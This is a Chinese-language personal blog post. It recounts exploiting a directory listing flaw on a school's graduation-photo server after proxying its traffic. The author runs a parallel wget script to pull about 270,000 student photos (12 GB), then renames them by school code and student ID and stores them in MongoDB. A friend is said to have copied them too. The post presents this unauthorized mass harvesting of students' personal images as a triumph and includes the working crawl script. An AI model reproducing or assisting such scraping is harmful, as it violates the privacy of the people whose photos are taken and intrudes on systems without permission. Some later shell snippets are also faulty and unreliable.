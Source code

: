```yaml
---
layout: post
title: Crawl From Little III 
categories: 学习数据挖掘的路上
tags: 学习笔记 抓取数据
---
```


### 这篇文章应该是几个星期前就该记录下来的。但<font color="green">世上哪得双全法，不负如来不负卿</font>。

# 当成故事来看，未尝不可，但是真的好爽啊

事情的起因很简单，就是上周上周上周的上周要进行全校本届毕业生彩像，然后过了大概一周，突然通知说让我们关注一个公众号，输入一串数字+学号+xl去验证是不是自己的照片。然后故事开始了。还有由于是几周之前的事情了，所以就不能在重现截图了。
## First：
手机wifi连接到我的笔记本，笔记本fiddler开代理。这样所有数据流向将十分清楚。所以很方便的找到了目的ip。然后burp suit拿出来，看看什么什么的，随便猜了下目录，竟然成了。服务器有目录遍历的漏洞，于是就直接写个小脚本wget去了，其实这样的话，并不是太完美，

```bash
#!/bin/bash
cat schoolname | while read line
do
	for ((i=0;i<8;i++));
	do
	{
		sleep 2;			
		wget -r -c -np -L http://xxxxip/wwtstudentcard/Web/public/appupload/$line/
	}&
	done	 
done 
```

就这样，扔服务器后台跑了一夜(谁让宿舍断网的，大爷的)，12G数据到手，总共27万张左右的图片（筛选之后乱七八糟的文件之后）。上面一个准确讲没什么技术含量，如果思路加小技巧算的话。

## Second：

拿到数据，有点多，但是有的目录是空的，有的还有html后缀的文件，还有的是学校的校徽，但是校徽的图片命名很规律，xiaohui.png .于是最后花了两天把所有空白文件删除，各种无关文件删除，并重命名图片文件名为学校代码+学号，并把大图和小图分别打包压缩，放到不同的文件夹中。当时发现一个很重要的事，就是一定要判断是不是文件，当时判断的时候默认是进入每个文件夹操作，结果有一个是文件，cd不了，肯定有错误，虽然是循环来处理，这个错误即使出现也不影响后面的操作，但还是值得注意，绝对。毕竟设计的脚本思路是进入文件夹，那么就应该判断是不是文件夹（只怪当时清理文件忘了清理校徽文件）。

```bash
cat hhhh | while read line
do
	cd $line
	ls | while read dirtype
	do
		#cd $dirtype
		#echo "Now I'm in:"  >> ../log
		#echo pwd  	    >> ../log
		cd $dirtype
		
		for fn in *.jpg
		do
			mv $fn $(pwd | grep -E "[0-9]" | awk -F "/" '{print $4}'
)$fn
		done
		cd ..
		#tar -cvzf $line.tar.gz $line
		#cd ..
	done
	
	#echo "Job Done "    >> log
	cd ..
done
```

## Third：

```bash
$ find -type d -empty	#找出所有的空文件夹
$ find $PWD #得到的是绝对路径 $pwd（小写的得到相对路径）
```

当时移除所有数据之后，准备

ls -aR | sed "s:^:`pwd`/:" > listto_mongo
cat listto_mongo | grep -v ".jpg" > temp
cat temp | while read line
do
	sed 's/$line//' listto_mongo

done

# Finally:

![tupian1](../image/crawl/allimg.png)
这是最后清洗完成后的数据，
最开始是这个样子的：
![tupian2](../image/crawl/wenjianjia.png)
后来处理并整理，可以从下面看出来虽然没考虑xiaohui.png这个问题，虽然有错误，但是但是竟然把xiaohui.png也打包了。
![tupian3](../image/crawl/22222.png)

![tupian4](../image/crawl/normalimg.png)
最后这个是准备重命名，并得到所有的绝对路径之后，导入到mongo中去，但是现在我觉得这不是一个好主意，虽然GridFs设计的就是为这种不大不小的文件而生，而且放入数据库便于携带，但是还是不得不说，速度并不快。
![tupian5](../image/crawl/rename.png)
一开始是打算用python+pymongo获取所有的文件并插入进去，但是后来发现mongofiles -d images put xxxx.png就可以实现，这样的话一个几行的shell就能搞定了，直接读取所有保存文件路径名的文本，多个线程插入即可。但是其实这也不好。因为我的照片即使是大的也没有256k,那么就不会把一个照片分块存储，而且每次存取将十分麻烦。虽然mongo可以访问远程mongo服务器，但总的来讲，对我并不是一个好主意。但是出于各种原因还是存了(哭笑不得)。
顺便，和好朋友一起，告诉他这个东西之后，他也在他的服务器上抓了所有的，而且直接保存到sqlite了，虽然我觉的这种东西都不应该放到数据库，但是一切为了备份～_～



# End
最后作为一个小菜鸟，路还很长，这是我习惯说的一句话，虽然有点啰嗦。还有一些小脚本，去服务器看时，发现已经没了，所以贴不来了。













